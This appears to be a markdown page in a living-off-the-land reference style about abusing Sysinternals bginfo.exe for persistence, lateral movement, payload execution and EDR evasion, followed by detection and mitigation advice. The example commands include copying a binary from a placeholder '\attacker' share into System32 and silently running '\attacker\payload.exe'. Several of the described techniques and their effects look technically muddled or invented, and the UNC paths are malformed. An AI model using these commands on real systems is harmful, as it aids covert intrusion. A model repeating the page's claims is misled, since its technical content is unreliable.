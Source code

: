# bginfo.exe
## What is it?
*```bginfo.exe``` is a legitimate utility developed by Sysinternals (now owned by Microsoft) that is used to display system information on the desktop background.*
*It can display a variety of system information, such as CPU, memory usage, IP address, and other system parameters directly on the user’s desktop background. This tool is often used by system administrators to provide real-time information on machine status for quick diagnostics.*

## Legitimate Usage
- **Display System Information** → Shows important system details like IP address, memory, and disk usage on the desktop background.
- **System Monitoring** → Used by IT administrators to visually track the state of a system at a glance.
- **Automate Information Updates** → Can be configured to automatically update the displayed system information at regular intervals.
- **Personalized Desktop Information** → Customizes desktop for users with vital data like uptime or network status.

## How to abuse it
- **Persistence** → Attackers can use ```bginfo.exe``` to display malicious information or create a visually misleading background to distract or confuse users.
- **Bypass Security Monitoring** → As a trusted system utility, ```bginfo.exe``` can be leveraged to bypass security controls and avoid detection when placed in trusted directories.
- **Lateral Movement** → Attackers can deploy ```bginfo.exe``` across multiple machines in the network to avoid detection, while it masquerades as a normal administrative tool.
- **Execution of Malicious Payloads** → Malicious code can be run in the background while ```bginfo.exe``` appears to be a benign, informational tool.
- **Command and Control (C2) Communication** → It could be abused as part of a communication channel to execute commands or retrieve payloads.

## Example attacks
### 1. Malicious Persistence via Background Information
*Attackers can configure ```bginfo.exe``` to run at startup and display malicious or confusing information on the desktop to distract the user while the malicious payload executes in the background.*

**Set Up Malicious Information Display**

```
bginfo.exe C:\path\to\malicious\config.bgi /timer:0 /silent
```

**Effect:**
- ```bginfo.exe``` runs silently at startup, showing a benign or misleading system status on the desktop while the real payload runs in the background.

### 2. Bypassing Detection by Hiding Payloads
*Attackers can use ```bginfo.exe``` to hide the presence of other malicious files or processes on the system.*

**Create a Misleading Desktop Background**

```
bginfo.exe C:\path\to\legitimate\config.bgi /timer:0 /silent
```

**Effect:**
- The background is set to display seemingly normal system information while malicious activities run in the background, evading detection by security tools that focus on active processes.

### 3. Lateral Movement via bginfo.exe
*Attackers can spread ```bginfo.exe``` across a network, using it to install malicious configurations on multiple machines under the guise of an administrative tool.*

**Deploy bginfo.exe Across the Network**

```
xcopy \attacker\malicious\bginfo.exe C:\Windows\System32 /E
```

**Effect:**
- Copies ```bginfo.exe``` to all target machines and sets it up to run silently, creating persistence while moving laterally within the network.

### 4. Remote Execution of bginfo.exe for C2 Communication
*Attackers can use ```bginfo.exe``` to secretly execute malicious payloads or send data to a remote command-and-control server.*

**Execute Malicious Payload via bginfo.exe**

```
bginfo.exe \attacker\payload.exe /timer:0 /silent
```

**Effect:**
- Runs a malicious payload silently on the target machine under the guise of a system utility.

### 5. Using bginfo.exe to Evade Detection by EDR Systems
*Security solutions may overlook ```bginfo.exe``` as it is a trusted and widely-used tool. Attackers can take advantage of this to bypass detection.*

**Use bginfo.exe to Execute Malicious Commands**

```
bginfo.exe C:\malicious\config.bgi /timer:0 /silent
```

**Effect:**
- ```bginfo.exe``` executes in the background with no visible output, bypassing security monitoring tools that focus on active malicious processes.

# Detection & Mitigation
## Detection Methods
**Monitor bginfo.exe Execution**
- **Event ID 4688 (New Process Creation)** → Detect the creation of ```bginfo.exe``` processes, especially when executed with unusual parameters or from untrusted directories.
- **Look for Unauthorized Use** → Ensure that ```bginfo.exe``` is not being used inappropriately in critical or production systems, particularly in network shares or user directories.

**File Integrity Monitoring**
- **Check for File Modifications** → Look for changes to system configuration files related to ```bginfo.exe``` or unauthorized copies in trusted directories like ```C:\Windows\System32```.

**Monitor Scheduled Tasks and Startup Folders**
- **Event ID 4698 (Scheduled Task Created)** → Detect the creation of scheduled tasks or startup entries that may be used for persistence.
- **Event ID 7035 (Service Control Manager)** → Monitor for suspicious service activity related to system utilities like ```bginfo.exe```.

## Mitigation Strategies
- **Restrict bginfo.exe Execution** → Use application whitelisting or security policies to restrict the use of ```bginfo.exe``` to trusted administrators only.
- **Disable Unnecessary Administrative Tools** → If ```bginfo.exe``` is not required for regular administrative tasks, consider disabling it via Group Policy or other management tools.
- **Implement Security Monitoring Solutions** → Use EDR (Endpoint Detection and Response) solutions to detect and block abnormal behaviors associated with trusted utilities like ```bginfo.exe```.
